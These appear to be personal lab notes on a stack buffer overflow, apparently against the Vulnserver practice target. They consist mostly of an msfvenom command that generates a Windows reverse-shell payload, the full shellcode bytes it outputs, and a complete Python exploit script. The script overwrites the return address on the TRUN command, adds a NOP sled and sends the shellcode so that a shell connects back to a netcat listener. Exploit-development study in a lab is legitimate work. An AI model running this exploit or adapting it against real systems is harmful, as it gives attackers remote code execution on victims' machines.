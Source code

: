 Getting a Shell

    Using msfvenom 

        msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00" 

            Switch of p for windows payload 

            Set lhost and lport  

            Exitfunc makes it more stable 

            Outputs to c  

            -b is the bad characters and we had nothing except the null byte here 

        Output 

        msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00" 

        [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload 

        Found 11 compatible encoders 

        Attempting to encode payload with 1 iterations of x86/shikata_ga_nai 

        x86/shikata_ga_nai succeeded with size 351 (iteration=0) 

        x86/shikata_ga_nai chosen with final size 351 

        Payload size: 351 bytes 

        Final size of c file: 1500 bytes 

        unsigned char buf[] =  

        "\xdb\xc1\xbd\x5a\x54\xb2\x5f\xd9\x74\x24\xf4\x58\x31\xc9\xb1" 

        "\x52\x31\x68\x17\x03\x68\x17\x83\x9a\x50\x50\xaa\xe6\xb1\x16" 

        "\x55\x16\x42\x77\xdf\xf3\x73\xb7\xbb\x70\x23\x07\xcf\xd4\xc8" 

        "\xec\x9d\xcc\x5b\x80\x09\xe3\xec\x2f\x6c\xca\xed\x1c\x4c\x4d" 

        "\x6e\x5f\x81\xad\x4f\x90\xd4\xac\x88\xcd\x15\xfc\x41\x99\x88" 

        "\x10\xe5\xd7\x10\x9b\xb5\xf6\x10\x78\x0d\xf8\x31\x2f\x05\xa3" 

        "\x91\xce\xca\xdf\x9b\xc8\x0f\xe5\x52\x63\xfb\x91\x64\xa5\x35" 

        "\x59\xca\x88\xf9\xa8\x12\xcd\x3e\x53\x61\x27\x3d\xee\x72\xfc" 

        "\x3f\x34\xf6\xe6\x98\xbf\xa0\xc2\x19\x13\x36\x81\x16\xd8\x3c" 

        "\xcd\x3a\xdf\x91\x66\x46\x54\x14\xa8\xce\x2e\x33\x6c\x8a\xf5" 

        "\x5a\x35\x76\x5b\x62\x25\xd9\x04\xc6\x2e\xf4\x51\x7b\x6d\x91" 

        "\x96\xb6\x8d\x61\xb1\xc1\xfe\x53\x1e\x7a\x68\xd8\xd7\xa4\x6f" 

        "\x1f\xc2\x11\xff\xde\xed\x61\xd6\x24\xb9\x31\x40\x8c\xc2\xd9" 

        "\x90\x31\x17\x4d\xc0\x9d\xc8\x2e\xb0\x5d\xb9\xc6\xda\x51\xe6" 

        "\xf7\xe5\xbb\x8f\x92\x1c\x2c\xba\x62\x1c\xa8\xd2\x60\x20\xa1" 

        "\x7e\xec\xc6\xab\x6e\xb8\x51\x44\x16\xe1\x29\xf5\xd7\x3f\x54" 

        "\x35\x53\xcc\xa9\xf8\x94\xb9\xb9\x6d\x55\xf4\xe3\x38\x6a\x22" 

        "\x8b\xa7\xf9\xa9\x4b\xa1\xe1\x65\x1c\xe6\xd4\x7f\xc8\x1a\x4e" 

        "\xd6\xee\xe6\x16\x11\xaa\x3c\xeb\x9c\x33\xb0\x57\xbb\x23\x0c" 

        "\x57\x87\x17\xc0\x0e\x51\xc1\xa6\xf8\x13\xbb\x70\x56\xfa\x2b" 

        "\x04\x94\x3d\x2d\x09\xf1\xcb\xd1\xb8\xac\x8d\xee\x75\x39\x1a" 

        "\x97\x6b\xd9\xe5\x42\x28\xf9\x07\x46\x45\x92\x91\x03\xe4\xff" 

        "\x21\xfe\x2b\x06\xa2\x0a\xd4\xfd\xba\x7f\xd1\xba\x7c\x6c\xab" 

        "\xd3\xe8\x92\x18\xd3\x38"; 

         

    New script 

    #!/usr/bin/python 

    import sys, socket 

    from time import sleep 

      

    #625011af 

      

    overflow = ("\xdb\xc1\xbd\x5a\x54\xb2\x5f\xd9\x74\x24\xf4\x58\x31\xc9\xb1" 

    "\x52\x31\x68\x17\x03\x68\x17\x83\x9a\x50\x50\xaa\xe6\xb1\x16" 

    "\x55\x16\x42\x77\xdf\xf3\x73\xb7\xbb\x70\x23\x07\xcf\xd4\xc8" 

    "\xec\x9d\xcc\x5b\x80\x09\xe3\xec\x2f\x6c\xca\xed\x1c\x4c\x4d" 

    "\x6e\x5f\x81\xad\x4f\x90\xd4\xac\x88\xcd\x15\xfc\x41\x99\x88" 

    "\x10\xe5\xd7\x10\x9b\xb5\xf6\x10\x78\x0d\xf8\x31\x2f\x05\xa3" 

    "\x91\xce\xca\xdf\x9b\xc8\x0f\xe5\x52\x63\xfb\x91\x64\xa5\x35" 

    "\x59\xca\x88\xf9\xa8\x12\xcd\x3e\x53\x61\x27\x3d\xee\x72\xfc" 

    "\x3f\x34\xf6\xe6\x98\xbf\xa0\xc2\x19\x13\x36\x81\x16\xd8\x3c" 

    "\xcd\x3a\xdf\x91\x66\x46\x54\x14\xa8\xce\x2e\x33\x6c\x8a\xf5" 

    "\x5a\x35\x76\x5b\x62\x25\xd9\x04\xc6\x2e\xf4\x51\x7b\x6d\x91" 

    "\x96\xb6\x8d\x61\xb1\xc1\xfe\x53\x1e\x7a\x68\xd8\xd7\xa4\x6f" 

    "\x1f\xc2\x11\xff\xde\xed\x61\xd6\x24\xb9\x31\x40\x8c\xc2\xd9" 

    "\x90\x31\x17\x4d\xc0\x9d\xc8\x2e\xb0\x5d\xb9\xc6\xda\x51\xe6" 

    "\xf7\xe5\xbb\x8f\x92\x1c\x2c\xba\x62\x1c\xa8\xd2\x60\x20\xa1" 

    "\x7e\xec\xc6\xab\x6e\xb8\x51\x44\x16\xe1\x29\xf5\xd7\x3f\x54" 

    "\x35\x53\xcc\xa9\xf8\x94\xb9\xb9\x6d\x55\xf4\xe3\x38\x6a\x22" 

    "\x8b\xa7\xf9\xa9\x4b\xa1\xe1\x65\x1c\xe6\xd4\x7f\xc8\x1a\x4e" 

    "\xd6\xee\xe6\x16\x11\xaa\x3c\xeb\x9c\x33\xb0\x57\xbb\x23\x0c" 

    "\x57\x87\x17\xc0\x0e\x51\xc1\xa6\xf8\x13\xbb\x70\x56\xfa\x2b" 

    "\x04\x94\x3d\x2d\x09\xf1\xcb\xd1\xb8\xac\x8d\xee\x75\x39\x1a" 

    "\x97\x6b\xd9\xe5\x42\x28\xf9\x07\x46\x45\x92\x91\x03\xe4\xff" 

    "\x21\xfe\x2b\x06\xa2\x0a\xd4\xfd\xba\x7f\xd1\xba\x7c\x6c\xab" 

    "\xd3\xe8\x92\x18\xd3\x38") 

      

    shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow 

         The \x90 is some padding so nothing interferes with it  

      

    try: 

            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) 

            s.connect(('10.0.2.4',9999)) 

            s.send(('TRUN /.:/' + shellcode)) 

            s.close() 

      

    except: 

            print "Error connecting to server " 

            sys.exit() 

    Running a nc to listen on 4444 and running the above code will return a remote shell as a user  

     

     